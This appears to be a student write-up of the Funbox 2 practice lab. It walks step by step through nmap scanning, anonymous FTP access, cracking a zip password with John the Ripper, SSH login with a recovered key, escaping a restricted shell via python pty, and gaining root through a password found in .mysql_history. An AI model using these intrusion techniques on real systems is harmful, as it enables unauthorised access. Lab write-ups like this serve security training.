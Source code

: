 <div style="background-color: rgb(50, 50, 50);">
<span style ="color:grey">

# \[----Funbox 2 Guide----\]

## [----Setup Requirments----]
First run a Kali Linux Machine, PFSense 2, and the Funbox 2 box.

Login on the Kali Linux Machine and launch a terminal

## \[----Tools Used----\]
`nmap`</br>
`ftp`</br>
`ssh`</br>
`python3`</br>
`johntheripper`</br>
## \[----Enumeration----\]

at \[03/29/23 1:09:35\] i ran the following command `sudo namp -PO 192.168.10.0/24` to find the machine's ip and relevant information about services using `-PO` to bypass filtering on the ports of the machine which returned the following


> Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-29 13:09 EDT</br>
> Nmap scan report for pfSense.home.arpa (192.168.10.1)</br></br>
> Host is up (0.00046s latency).</br>
> Not shown: 998 filtered tcp ports (no-response)</br>
> PORT   STATE SERVICE</br>
> 53/tcp open  domain</br>
> 80/tcp open  http</br>
> MAC Address: 08:00:27:B8:0B:67 (Oracle VirtualBox virtual NIC)
>
> Nmap scan report for 192.168.10.6</br>
> Host is up (0.00031s latency).</br>
> Not shown: 997 closed tcp ports (reset)</br>
> PORT   STATE SERVICE</br>
> 21/tcp open  ftp</br>
> 22/tcp open  ssh</br>
> 80/tcp open  http</br>
> MAC Address: 08:00:27:CF:01:65 (Oracle VirtualBox virtual NIC)
>
> Nmap scan report for 192.168.10.3</br>
> Host is up (0.0000030s latency).</br>
> All 1000 scanned ports on 192.168.10.3 are in ignored states.</br>
> Not shown: 1000 closed tcp ports (reset)
>
> Nmap done: 256 IP addresses (3 hosts up) scanned in 6.89 seconds
> 

this scan revealed the following services `FTP`, `SSH`, and `HTTP` running on the vulnerable machine at the ip address of `192.168.10.6`

## \[----FTP----\]

using this information at \[03/29/23 1:16:27\] i ran `ftp 192.168.10.6 -p 21` to access the relevant running FTP service logging in under the anonymous username

upon logging on under the **anonymous** user account with no password i ran `ls -la` to retrieve the directory contents of the server which returned the following information


> 229 Entering Extended Passive Mode (|||31812|)</br>
> 150 Opening ASCII mode data connection for file list</br>
> drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 .</br>
> drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 ..</br>
> -rw-r--r--   1 ftp      ftp           153 Jul 25  2020 .@admins</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip</br>
> -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip</br>
> -rw-r--r--   1 ftp      ftp           114 Jul 25  2020 .@users</br>
> -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip</br>
> 226 Transfer complete
> 

with the gained knowledge of the accessible files i used `get` to obtain `.@users`, `.@admins` and all the `.zip` files located on the server

upon collection of the following files i exited the ftp server using `exit` at \[03/29/23 1:25:11\]  

## \[----FTP Server File Analysis----\]

using the command `cat .@users` in the directory containing the downloaded files off the ftp server i gained the following **Valuable** information


> Hi Users,
>
> be carefull with your keys. Find them in %yourname%.zip.</br>
> The passwords are the old ones.
>
> Regards</br>
> root
> 

using this information i attempted to extract files from `tom.zip` using `unzip` which revealed a password requirment on the zip file.


> Archive:  tom.zip</br>
> \[tom.zip\] id_rsa password: 
> 

with this information i used the command of `zip2john tom.zip >> tom.hash` to generate a **johntheripper**  crackable hash

doing the command `john tom.hash` at \[03/29/23 1:36:36\] revealed the following information including the password for the zip


> Using default input encoding: UTF-8</br>
> Loaded 1 password hash (PKZIP [32/64])</br>
> Will run 4 OpenMP threads</br>
> Proceeding with single, rules:Single</br>
> Press 'q' or Ctrl-C to abort, almost any other key for status</br>
> Almost done: Processing the remaining buffered candidate passwords, if any.</br>
> Proceeding with wordlist:/usr/share/john/password.lst</br>
> **iubire**           (tom.zip/id_rsa)     </br>
> 1g 0:00:00:00 DONE 2/3 (2023-03-29 13:36) 20.00g/s 937980p/s 937980c/s 937980C/s 123456..felipes</br>
> Use the "--show" option to display all of the cracked passwords reliably</br>
> Session completed. 
> 

with this i did `unzip tom.zip` and entered the password of `iubire` giving me tom's id_rsa key

## \[----Accessing the Machine And Elevating Privilege----\]

with the newly acquired id_rsa key i ran `ssh tom@192.168.10.6 -i id_rsa` at \[03/29/23 1:38:21\] gaining remote acess to the machine via a ssh shell

I quickly upon connecting and opening a shell to the machine learned that the machine was running under restricted shell to bypass this i ran the following `python3 -c 'import pty; pty.spawn("/bin/bash/")'` to gain a unrestricted shell on the machine.

with this new found unrestriction i ran `ls -la` to reveal the contents of tom's home directory


> total 40</br>
> drwxr-xr-x 5 tom  tom  4096 Jul 25  2020 .</br>
> drwxr-xr-x 3 root root 4096 Jul 25  2020 ..</br>
> -rw------- 1 tom  tom     6 Jul 25  2020 .bash_history</br>
> -rw-r--r-- 1 tom  tom   220 Apr  4  2018 .bash_logout</br>
> -rw-r--r-- 1 tom  tom  3771 Apr  4  2018 .bashrc</br>
> drwx------ 2 tom  tom  4096 Jul 25  2020 .cache</br>
> drwx------ 3 tom  tom  4096 Jul 25  2020 .gnupg</br>
> -rw------- 1 tom  tom   295 Jul 25  2020 .mysql_history</br>
> -rw-r--r-- 1 tom  tom   807 Apr  4  2018 .profile</br>
> drwx------ 2 tom  tom  4096 Jul 25  2020 .ssh</br>
> -rw-r--r-- 1 tom  tom     0 Jul 25  2020 .sudo_as_admin_successful</br>
> -rw------- 1 tom  tom     0 Jul 25  2020 .viminfo
> 

using these contents i quickly strated running `cat` to look at the contents of the files

the following in order revealed no useful information `.viminfo`, `.sudo_as_admin_successful`, `.profile`.

However upon running `cat .mysql_history` it revealed the following 


> \_HiStOrY\_V2\_
> show\040databases;</br>
> quit</br>
> create\040database\040'support';</br>
> create\040database\040support;</br>
> use\040support</br>
> create\040table\040users;</br>
> show\040tables</br>
> ;</br>
>select\040*\040from\040support</br>
> ;</br>
> show\040tables;</br>
> select\040*\040from\040support;</br>
> insert\040into\040support\040(tom,\040xx11yy22!);</br>
> quit</br>
>

due to the following newfound information i attempted the following command `sudo -l` using `xx11yy22!` as the password required for sudo execution to see if tom had sudo privileges which gave the following output


> Matching Defaults entries for tom on funbox2:</br>
>    env_reset, mail_badpass,</br>
>    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
> </br></br>
> 

> User tom may run the following commands on funbox2:</br>
>    (ALL : ALL) ALL
> 

with this found information i used `sudo -i` to launch a interative shell as the root user and was able to `cat flag.txt` to get the end goal output.

## \[----End Result Analysis----\]
due to the improperly secured services on the host of `192.168.10.6` it is possible to find and abuse information from the service of `ftp` as the **Anonymous** user account which requires no password to gain information and later a id_rsa key file. Through this it is possible to login to a user ssh account and by using `MySql` command logging find the relevant user password which has complete sudo access and gain root level access.

